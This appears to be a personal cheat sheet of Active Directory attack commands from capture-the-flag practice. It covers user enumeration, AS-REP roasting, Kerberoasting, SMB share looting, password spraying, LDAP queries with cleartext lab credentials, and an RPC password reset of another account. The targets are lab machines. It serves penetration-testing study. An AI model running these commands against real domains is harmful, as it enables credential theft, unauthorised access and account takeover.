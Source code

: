 
- [ ] Enum4linux

```
enum4linux -a 10.201.11.30
```




- [ ] Kerbrute
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 userlist.txt -t 100
```

It's time to get the valid usernames to that we can try other attacks

User & Password was given in the Challenge so will use it.
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt

or 

```
GetADUsers.py megacorp.local/ -dc-ip 10.10.10.179
```

```
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.10.10.100
```



- [ ] GetNPUsers

ASREPRoasting
>[!bug] Don't do this mistake in the exam
- We have to provide the Domain name and not the host name for the attack

```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```


```
GetUserSPNs.py active.htb/svc_tgs:'GPPstillStandingStrong2k18' -dc-ip 10.10.10.100 -request
```




- [ ] SMB Client

```
smbclient -L \\10.201.11.30
```

```
smbclient -L 10.201.11.30 -U 'anonymous'
```

```
smbclient \\\\10.10.10.182\\Data -U 'r.thompson' --password 'rY4n5eva'
```

```
smbmap -u fsmith -d EGOTISTICALBANK.local -p 'Thestrokes23' -H 10.10.10.175
```


## Download the contents of the this share

```
prompt off
```

```
recurse on
```

```
ls
```

```
mget *
```






- [ ] CrackMapexec

```
crackmapexec smb 10.201.11.30 -u '' -p '' --shares
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password>
```

```
crackmapexec smb <IP_Address> -u <user_list> -p <password_list> 
```

```
cme smb 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva' --shares
```




 
 - [ ] Ldap
 
```
ldapsearch -x -H ldap://10.10.10.182 -b "dc=cascade,dc=local" "(sAMAccountName=r.thompson)"

ldapsearch -h <ip_Address> -p 389 -x -b "dc=htb,dc=local"

ldapsearch -x -H 10.10.10.182 -s base  -b '' "(objectClass=*)" "*" +

ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local'


ldapsearch -x -H ldap://sizzle.HTB.local -D 'amanda@htb.local' -w 'Ashare1972' -b 'dc=htb,dc=local' "(&(objectClass=user)(memberOf=CN=Domain Admins, CN=Users,DC=htb,DC=local))" | grep sAMAccountName 

ldapsearch -H ldap://support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'dc=support,dc=htb'
```


# Rpc Client

We might have to use RPC to change the password of audit2020 let's google and see what could we find.
```
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

```
rpcclient $> setuserinfo2
```

```
rpcclient -U "support" 10.10.10.192
#00^BlackKnight
```

```
setuserinfo2 audit2020 23 '#00^BlackKnight'
```


